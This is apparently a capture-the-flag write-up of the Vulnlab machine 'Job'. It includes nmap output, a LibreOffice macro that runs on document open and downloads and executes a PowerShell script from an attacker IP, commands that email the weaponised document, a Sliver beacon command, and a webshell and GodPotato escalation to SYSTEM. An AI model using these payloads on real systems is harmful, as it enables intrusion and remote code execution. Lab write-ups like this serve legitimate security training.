| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Job          | Medium     | 01/01/2025   | 19/01/2025     |
*Vulnlab.com* 

---

Learning Points:
- Creating and inserting a malicious macro into LibreOffice documents to gain reverse shells.
- Sending emails using `sendmail` in Linux.
- Using GodPotato4 to abuse SeImpersonatePrivilege for privilege escalation.

---

Attack Path:
- Create a malicious ODT document using LibreOffice with a reverse shell and send it using `sendmail` to gain a shell.
- Upload a malicious ASPX file to the webroot and laterally move to the service account running the webserver.
- Abuse the SeImpersonatePrivilege of the webserver service account using GodPotato and elevate to `NT AUTHORITY\SYSTEM`.

---

*Default nmap scan :*
```
# Nmap 7.94SVN scan initiated Wed Jan  1 21:21:11 2025 as: nmap -sC -sV -oA default 10.10.73.28
Nmap scan report for 10.10.73.28
Host is up (0.18s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: JOB, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Job.local
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: JOB
|   NetBIOS_Domain_Name: JOB
|   NetBIOS_Computer_Name: JOB
|   DNS_Domain_Name: job
|   DNS_Computer_Name: job
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-01T15:51:40+00:00
|_ssl-date: 2025-01-01T15:52:19+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=job
| Not valid before: 2024-12-31T15:50:44
|_Not valid after:  2025-07-02T15:50:44
Service Info: Host: JOB; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-01T15:51:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  1 21:22:21 2025 -- 1 IP address (1 host up) scanned in 69.85 seconds
```

*All ports nmap scan :*
```
# Nmap 7.94SVN scan initiated Wed Jan  1 21:27:39 2025 as: nmap -sC -sV -oA full -p- 10.10.73.28
Nmap scan report for 10.10.73.28
Host is up (0.18s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: JOB, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Job.local
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=job
| Not valid before: 2024-12-31T15:50:44
|_Not valid after:  2025-07-02T15:50:44
| rdp-ntlm-info: 
|   Target_Name: JOB
|   NetBIOS_Domain_Name: JOB
|   NetBIOS_Computer_Name: JOB
|   DNS_Domain_Name: job
|   DNS_Computer_Name: job
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-01T16:04:05+00:00
|_ssl-date: 2025-01-01T16:04:44+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: JOB; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-01T16:04:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  1 21:34:45 2025 -- 1 IP address (1 host up) scanned in 425.93 seconds
```

We enumerated the available SMB shares as a null session using CrackMapExec but couldn't find anything.



We found a webpage on port 80.


We ran a directory scan but couldn't find anything.



The source code also didn’t reveal anything useful.

We ran a VHOST scan as well but couldn’t find anything.



*Viewed a writeup to get an idea after this step...*

It was noted that port 25 was open and the wrb page contained the info :

>Please send your application to career@job.local! We recently switched to using open source products - please send your cv as a libre office document.

Reading the [Hackthebox machine : RE writeup by oxdf](https://0xdf.gitlab.io/2020/02/01/htb-re.html) we used the method oxdf used to create a malicious macro and insert it to libre office.

We opened Libreoffice writeer and went to Tools –> Macros –> Organize Macros –> LibreOffice Basic



We created a new macro named `legit` and inserted the below payload :

```
REM  *****  BASIC  *****

Sub Main

    Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.4.157/shell.ps1')""")
    
End Sub
```

Now I need to make sure this macro is run when the document is opened. I’ll close the macro editors, and back in the document, go to Tools –> Customize and the window that pops up for me is already in the Events tab:



I’ll select “Open Document” and click on the “Macro…” button. I’ll navigte to select my macro:



When I hit “OK”, I see it now in the list. I’ll save my sheet as `shell.ods`, and exit LibreOffice.

We used this [Powershell Revershell ps1](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1) 

We sent the mail using the below command but was not able to see any interaction :

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Job]
└─$ swaks --to career@job.local --header "CV" --body "meow" --attach CV.odt --server job.local
```



Edited the macro again by putting a base64 encoded powershell from revshells.com



Saved the macro again and send the mail using a different tool but didnt get a shell either :

```
sendemail -s job.local -f "dez <dez@dez.dez>" -t career@job.local -o tls=no -m "Please see the attached for my cover letter. \n\nV/R.,\n\nDestiny" -a CV-new.odt
```




---
##### Re-Attempt from Eagle

We tried everything from Eagle again and were successful.

_Macro :_


_Sending the email using sendmail :_
```
sendemail -s job.local -f "sec <sec@vulnlab.com>" -t career@job.local -o tls=no -m "hey pls check my cv http://10.8.4.157/" -a eaglecv.odt
```

We were successfully able to get a flag as the user `jack.black` and retrieve the user flag.



### Privilege Escalation

We transferred a Sliver beacon to make further exploitation easier.

```
generate beacon --os windows --arch amd64 --http 10.8.4.157 --save rev.exe
```

We checked the privileges for the user but were not able to find anything exploitable.



If we go to the web root directory `C:\inetpub\wwwroot`, we can see that we can write there, and since the web server is running as service account we can get a shell as that account and then use something like `SeImpersonatePrivilege` to escalate privileges.



Using the webshell, we executed the beacon again as `IIS APPPOOL\DefaultAppPool`.



We used GodPotato with Sliver to run the beacon as `NT AUTHORITY\SYSTEM` and retrieved the root flag.



----